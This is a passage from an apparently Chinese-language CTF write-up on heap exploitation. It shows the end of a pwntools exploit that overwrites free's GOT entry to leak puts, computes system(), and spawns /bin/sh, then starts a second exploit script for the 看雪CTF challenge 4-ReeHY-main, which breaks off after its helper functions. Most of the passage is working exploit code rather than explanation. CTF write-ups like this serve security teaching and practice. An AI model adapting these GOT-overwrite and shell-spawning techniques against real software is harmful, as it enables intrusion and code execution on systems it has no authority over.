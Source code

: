     # index1 *0x602130 = 0x602118
    payload2 = p64(1)
    payload2 += p64(free_got) + p64(1) # index 0 is free.got.plt
    payload2 += p64(puts_got) + p64(1) # index 1 is puts.got.plt    

    edit(1, payload2)
    sleep(1)
    edit(0, p64(puts_plt)) # free.got.plt --> puts.plt
    delete(1)   # leak puts.got.plt address

    puts_addr = u64(p.recv(6) + "\x00"*2)
    print "[+] the puts address is " + hex(puts_addr)

    system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
    print "[+] the system address is " + hex(system_addr)

    edit(0, p64(system_addr))   # free.got.plt --> system()
    delete(3)           # system('/bin/sh')
    p.interactive()</pre>

运行结果如下图：

![linuxd2f]({{ '/images/201804/linuxd2f_2_9.png' | prepend: site.baseurl }})


#### 0x03 看雪CTF 4-ReeHY-main： ####

漏洞利用过程大致相同，exp如下：

<pre>#!/usr/bin/python

from pwn import *

p = process('./4-ReeHY-main')
elf = ELF('./4-ReeHY-main')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0])
#context.log_level = 'debug'

def welcome():
    p.recvuntil('name: \n$')
    p.send('polar')

def create(index, size, content):
    p.recvuntil('*********\n$')
    p.send('1')
    p.recvuntil('Input size\n')
    p.send(str(size))
    p.recvuntil('Input cun\n')
    p.send(str(index))
    p.recvuntil('Input content\n')
    p.send(content)
